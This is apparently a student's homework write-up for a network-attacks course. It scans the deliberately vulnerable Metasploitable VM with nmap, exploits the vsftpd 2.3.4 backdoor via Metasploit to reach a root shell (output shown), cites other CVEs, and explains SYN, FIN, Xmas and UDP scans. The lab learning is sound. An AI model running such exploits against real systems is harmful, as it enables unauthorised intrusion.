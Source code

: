 # Домашнее задание к занятию «Атаки»

В качестве результата пришлите ответы на вопросы в личном кабинете студента на сайте [netology.ru](https://netology.ru/).

## Metasploitable

Скачайте и установите на виртуальную машину Metasploitable: https://sourceforge.net/projects/metasploitable/

Это типовая ОС для экспериментов в области информационно безопасности, с которой следует начать при анализе уязвимостей.

Просканируйте эту VM, используя nmap.

Попробуйте найти уязвимости, которым подвержена данная виртуальная машина.

Сами уязвимости можно поискать на сайте https://www.exploit-db.com/.

Для этого нужно в поиске ввести название сетевой службы, обнаруженной на атакуемой машине, и выбрать подходящие по версии уязвимости.

Ответьте на следующие вопросы:

1. Какие сетевые службы в ней разрешены?

   ***

   **Ответ:** 

   ```bash
   21/tcp   open  ftp          vsftpd 2.3.4
   22/tcp   open  ssh          OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
   23/tcp   open  telnet?
   25/tcp   open  smtp?
   53/tcp   open  domain       ISC BIND 9.4.2
   80/tcp   open  http         Apache httpd 2.2.8 ((Ubuntu) DAV/2)
   111/tcp  open  rpcbind      2 (RPC #100000)
   139/tcp  open  netbios-ssn  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
   445/tcp  open  netbios-ssn  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
   512/tcp  open  exec?
   513/tcp  open  login?
   514/tcp  open  shell?
   1099/tcp open  java-rmi     GNU Classpath grmiregistry
   1524/tcp open  bindshell    Metasploitable root shell
   2049/tcp open  nfs          2-4 (RPC #100003)
   2121/tcp open  ccproxy-ftp?
   3306/tcp open  mysql?
   5432/tcp open  postgresql   PostgreSQL DB 8.3.0 - 8.3.7
   5900/tcp open  vnc          VNC (protocol 3.3)
   6000/tcp open  X11          (access denied)
   6667/tcp open  irc          UnrealIRCd
   8009/tcp open  ajp13        Apache Jserv (Protocol v1.3)
   8180/tcp open  http         Apache Tomcat/Coyote JSP engine 1.1
   
   ```

   

   ***

   

2. Какие уязвимости были вами обнаружены (список со ссылками - достаточно 3х уязвимостей)

***

**Ответ:**

1) Для ftp vsftpd 2.3.4 уязвимость CVE 2011-2523. Ниже провел эксплуатацию уязвимости через metasploit и зашел на shell жертвы.

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.0.2:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.0.2:21 - USER: 331 Please specify the password.
[+] 10.10.0.2:21 - Backdoor service has been spawned, handling...
[+] 10.10.0.2:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (10.10.0.3:44747 -> 10.10.0.2:6200) at 2022-11-03 03:45:33 -0400

ls
bin
boot
cdrom
dev
etc
home
initrd
initrd.img
lib
lost+found
media
mnt
nohup.out
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz

```



2. Для PostgreeSQL есть уязвимость CVE 2009-0922
3. Для ISC BIND 9 есть уязвимость CVE 2009-0696

***



Пришлите ответы на вопросы в ЛК студента.

## SYN, FIN, Xmas, UDP

Проведите сканирование Metasploitable в режимах SYN, FIN, Xmas, UDP, запишите сеансы сканирования в Wireshark.

Ответьте в свободной форме на следующие вопросы:

1. Чем отличаются эти режимы сканирования с точки зрения сетевого трафика?
2. Как отвечает сервер?

***

**Ответы:**

1. **SYN-сканирование.** Здесь идет сканирование через TCP соединение. Наш сервер отправляет запрос на установку соединения. Вся суть данного сканирования строится на инициализации TCP соединения.

![image-20221103135835480](SYN.jpg)

***

Если сервер возвращает ключ SYN, значит порт открыт. Если RST, значит закрыт.





2. **FIN-сканирование.** Здесь идет речь о завершении соединения и отправка флага FIN. Если фаервол жертвы настроен на отлов поддельных SYN запросов и SYN сканирование не работает.

![image-20221103144910437](FIN.jpg)





3. **Xmas-сканирование.** Использует для проверки порта ключи FIN, PSH, URG. Суть почти та же, что и при FIN сканировании. Мы ищем флаги, которые не заблокированы фаерволом. Если возвращается RST, значит порты закрыт. Во всех остальных случаях порт закрытым не является. 

- флаг PSH означает, что данные не нужно записывать в буфер при передаче.
- URG означает, что данные являются срочными и их нужно немедленно передать приложению.

![Xmas](Xmas.jpg)



4. **UDP - сканирование.** Здесь мы не используем систему рукопожатий. 

![UDP](UDP.jpg)



Пришлите ответы на вопросы в ЛК студента.

## Footer

© 2022 GitHub, Inc.

Footer navigation[Terms](https://docs.github.com/en/github/site-policy/github-terms-of-service)[Privacy](https://docs.github.com/en/github/site-policy/github-privacy-statement)[Security](https://github.com/security)[Status](https://www.githubstatus.com/)[Docs](https://docs.github.com/)[Contact GitHub](https://support.github.com/?tags=dotcom-footer)[Pricing](https://github.com/pricing)
